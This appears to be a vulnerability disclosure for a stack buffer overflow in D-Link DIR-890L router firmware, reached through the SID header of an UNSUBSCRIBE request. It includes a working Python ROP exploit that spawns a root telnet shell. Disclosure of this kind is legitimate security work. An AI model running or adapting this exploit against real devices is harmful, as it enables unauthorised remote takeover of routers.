 # Information

**Vendor of the products:**    D-Link

**Reported by:**    WangJincheng && FeiXincheng

**Affected products:**    D-Link DIR-890L <= v1.07

**Vendor Homepage:**    [https://www.dlink.com](https://www.dlink.com "https://www.dlink.com")

**Vendor Advisory:**     [http://legacyfiles.us.dlink.com/DIR-890L](http://legacyfiles.us.dlink.com/DIR-890L "http://legacyfiles.us.dlink.com/DIR-890L")

# Summarize

The LAN-side Web-Configuration Interface has Stack-based Buffer Overflow vulnerability in the `D-Link` Wi-Fi router firmware `DIR-890L`(version less than or equal to `1.07`). 

The function created at `0x17958` of `/htdocs/cgibin` will call `sprintf` without checking the length of strings in parameters given by `HTTP header` and can be controlled by users easily.

The attackers can exploit the vulnerability to carry out arbitrary code by means of sending a specially constructed payload to port `49152`.

# Vulnerability Description

The vulnerability is detected at `/htdocs/cgibin`.

There is a `Stack-based Buffer Overflow vulnerability` in the function created at `0x17A60`. When we use `UNSUBSCRIBE` request, it will call the `sub_17958` function which created at `0x17958`.

![image](https://github.com/winmt/CVE/blob/main/DIR-890L/pic/1-1.jpg)

However, in the `sub_17958` function, it will call `sprintf` without checking the length of `v2`, which causes the `stack overflow`. The `v2` here is `SID` parameter given by `HTTP header`.

![image](https://github.com/winmt/CVE/blob/main/DIR-890L/pic/1-2.jpg)

# Poc

```python
# python3
from pwn import *
from socket import *
from os import *
from time import *
context(os = 'linux', arch = 'arm')

libc_base = 0xb6f7e000

s = socket(AF_INET, SOCK_STREAM)

cmd = b'telnetd -l /bin/sh;'
payload = b'a'*449
payload += p32(libc_base + 0x18298) # pop {r3, pc};
payload += p32(libc_base + 0x406f8) # mov r0, r1; pop {r3, pc};
payload += p32(libc_base + 0x390fc) # pc add r1, sp, #0x2c; blx r3;
payload += b'a'*4 # padding
payload += p32(libc_base + 0x5a270) # pc system
payload += b'a'*(0x2c-8) # padding
payload += cmd

msg = b"UNSUBSCRIBE /gena.cgi?service=0 HTTP/1.1\r\n"
msg += b"Host: localhost:49152\r\n"
msg += b"SID: " + payload + b"\r\n\r\n"

s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(msg)

sleep(1)
system("telnet 192.168.0.1 23")
```

# Get Shell

Scan ports before exploit the vulnerability.

![image](https://github.com/winmt/CVE/blob/main/DIR-890L/pic/2-1.jpg)

Exploit the vulnerability and get shell successfully.

![image](https://github.com/winmt/CVE/blob/main/DIR-890L/pic/2-2.jpg)

Scan ports again and we can dectect that the port `23` which represents `Telnet` service has been opened.

![image](https://github.com/winmt/CVE/blob/main/DIR-890L/pic/2-3.jpg)

